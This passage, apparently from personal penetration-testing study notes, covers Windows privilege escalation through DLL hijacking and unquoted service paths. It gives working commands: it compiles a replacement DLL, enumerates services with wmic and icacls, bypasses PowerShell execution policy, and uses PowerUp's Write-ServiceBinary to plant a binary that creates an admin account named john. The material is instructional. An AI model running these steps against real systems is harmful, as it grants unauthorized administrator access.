 We will then compile it on the linux machine with the `--shared` option and we load it in the Windows machine **in the path and with the name that Windows expect the DLL to have**. Obviously this works only if we have the **WRITE** permission on that files.

```shell
x86_64-w64-mingw32-gcc calledDll.cpp --shared -o calledDll.dll
```

Trasnfer the file and restart the service with:

```powershell
Restart-Service <SERVICENAME>
```

And we will be able to execute a shell as admin with the user john. We could not be able to log-in via RDP because the user may not be in the RDP group.

## Unquoted Service Paths
---

We find unquoted paths with the command:

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We must check if we have write permissions on the executable in order to replace it with a new one:

```powershell
icacls "C:\Program Files\Enterprise Apps\path\to\service.exe"
```

Then if we have permission on the service we can start or stop it with `Start-Service` or `Stop-Service` command. Once we got the paths we can use PowerUp.ps1 for exploting the service. This means the service will be replaced with a malicious exe.

```powershell
Get-UnquotedService
powershell -ep bypass
. .\PowerUp.ps1
```

And finally we run the command to overwrite the service with

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Now restarting the service will grant us an Administrator account with user john and Password123! as credentials:

```powershell
Restart-Service GammaService
```

## Scheduled Tasks
---

If a task is executed periodically, we can exploit the called program if we have write permissions on it. To seek for scheduled tasks we can run.
